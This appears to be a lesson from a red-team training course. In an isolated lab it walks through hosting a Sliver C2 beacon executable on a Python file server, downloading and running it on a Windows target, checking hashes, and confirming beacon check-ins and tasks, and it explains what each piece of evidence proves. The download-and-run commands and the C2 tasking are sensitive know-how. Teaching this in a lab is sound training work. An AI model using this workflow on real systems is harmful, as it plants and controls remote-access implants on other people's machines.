

# Lesson 6 — Delivery, Execution, and Connection Evidence { #lesson-6-delivery-execution-and-evidence }

**Goal:** Follow the generated file to the lab target and distinguish evidence of a response, saved contents, execution, communication, and task completion.

## Two services, two purposes { #two-services-two-purposes }

Continue the isolated lab from Lesson 5: Linux server `192.168.56.10`, Windows target `192.168.56.20`, and the generated `lesson5-beacon.exe`.

| Service | Address | Purpose |
|---|---|---|
| Python file server | `192.168.56.10:8000` | Provide the executable to Windows |
| Sliver C2 listener | `192.168.56.10:8080` | Exchange tasks and results with the running implant |



Both services can use HTTP without being the same service. Download success is not C2 success.

## Prepare the file server on Linux { #prepare-file-server }

Use the generation output message to locate the file. Prepare a dedicated transfer folder containing only the intended lab file, then open a **Linux terminal in that folder**. This terminal is separate from the Sliver console.

First calculate the original file's SHA-256:

```bash
sha256sum ./lesson5-beacon.exe
```

Record the value for comparison. Then start the file server from that folder:

```bash
python3 -m http.server 8000 --bind 192.168.56.10
```

This serves files from the current directory on the specified interface and port. Keep the terminal open while serving the file. A dedicated folder limits which files are offered. Python's simple server is appropriate here as a temporary lab utility, not production hosting. [Python documentation](https://docs.python.org/3/library/http.server.html)

## Download on the Windows target { #download-on-windows }

Open **PowerShell in a dedicated lab folder on Windows**. The relative output path below refers to that folder.

```powershell
Invoke-WebRequest -Uri "http://192.168.56.10:8000/lesson5-beacon.exe" -OutFile ".\lesson5-beacon.exe" -UseBasicParsing
```

| Part | Meaning |
|---|---|
| `Invoke-WebRequest` | Make the HTTP request |
| `-Uri` | Address of the file to retrieve |
| `-OutFile` | Local output file |
| `.\` | Current Windows directory |
| `-UseBasicParsing` | Use basic parsing, including compatibility with Windows PowerShell |

The command saves content; it does **not** automatically execute the saved program. [Microsoft documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest)

## What HTTP 200 does and does not prove { #http-200-evidence }

An illustrative, simplified file-server record might look like this:

```text
192.168.56.20 ... "GET /lesson5-beacon.exe HTTP/1.1" 200 -
```

`GET` identifies the request method, the path identifies the requested resource, and `200` is the successful HTTP response status. This supports the conclusion that the server handled the request with a success response.

**It does not prove that Windows saved the entire file.** Transfer can be interrupted after a response begins, a local write can fail, or a security product can quarantine the file. It also proves neither execution nor a beacon check-in.

## Compare the saved contents { #compare-saved-contents }

In **Windows PowerShell**:

```powershell
Get-FileHash -LiteralPath ".\lesson5-beacon.exe" -Algorithm SHA256
```

Compare the hash with the original Linux SHA-256. Letter case in the hexadecimal display does not matter.

| Result | Interpretation |
|---|---|
| Hashes match | Strong evidence that the two files have the same contents |
| Hashes differ | Investigate a different file, changed contents, or a transfer problem |

A hash is often called a digital fingerprint. A matching hash establishes content agreement; it is not a safety verdict or evidence of execution. [Microsoft file-hash documentation](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash)

## Execute and inspect check-ins { #execute-and-inspect-check-ins }

In the **Sliver console**, confirm the intended C2 listener is running:

```text
jobs
```

When the file is present and the authorized lab is ready for execution, start it from **Windows PowerShell**:

```powershell
.\lesson5-beacon.exe
```

Execution can be blocked or followed by quarantine. If that occurs, record the path, detection time, threat name, and action. Treat it as an observed lab outcome and examine the protection records; Lesson 7 explains how to read them.

Back in the **Sliver console**:

```text
beacons
```

Check the expected hostname and user, whether a new beacon registered, and whether its last-check-in value continues to update. An old list entry is not sufficient evidence of current communication. [Official beacon commands](https://github.com/BishopFox/sliver/blob/master/client/command/beacons/commands.go)

## Verify a simple task { #verify-a-simple-task }

Select the actual beacon in the **Sliver console**:

```text
beacons --interact <Beacon_ID>
```

Replace the placeholder and angle brackets with its real ID. Then request its working directory:

```text
pwd
```

Here `pwd` is a Sliver task for the **selected target's working directory**, not a Linux-terminal command for the operator's own directory. A beacon may wait until the next check-in to collect it. Receiving its result confirms this task's **registration → delivery → execution → result return**. It does not establish that every possible capability works. [Official filesystem commands](https://github.com/BishopFox/sliver/blob/master/client/command/filesystem/commands.go)

## Evidence ladder { #evidence-ladder }

| Observation | Supported conclusion |
|---|---|
| Server-side HTTP `200` record | The request received a successful response status |
| File exists on Windows | A file is present at that path |
| SHA-256 matches the original | Strong evidence of matching saved contents |
| New beacon check-in | The implant executed and communicated at that time |
| Repeated check-in updates | Communication continued at later observed times |
| `pwd` result returned | This task was delivered, performed, and returned |

Each observation has a practical limit. Do not substitute an earlier step's evidence for a later step's success.

## Review questions { #review-questions }

1. The file server records HTTP `200`. Does that prove the implant executed and connected to C2?
2. The complete beacon executable has been downloaded, started, and is checking in. Must stopping only the Python service on port 8000 also stop its C2 communication on port 8080?

??? success "Answers and reasoning"
    **1. No.** The response status is not proof of complete local saving, execution, or C2 communication. Inspect the saved file and hash, then fresh check-ins and task results for their respective stages.

    **2. No, in this setup.** The file-provision service and the C2 listener are separate. The stageless executable already contains the implant and no longer needs that initial download service. Stopping only port 8000's service need not stop communication with the independently running listener on port 8080.

[Continue to Lesson 7 — Antivirus, EDR, and detection evidence](lesson-7-antivirus-edr-and-detection-evidence.md)
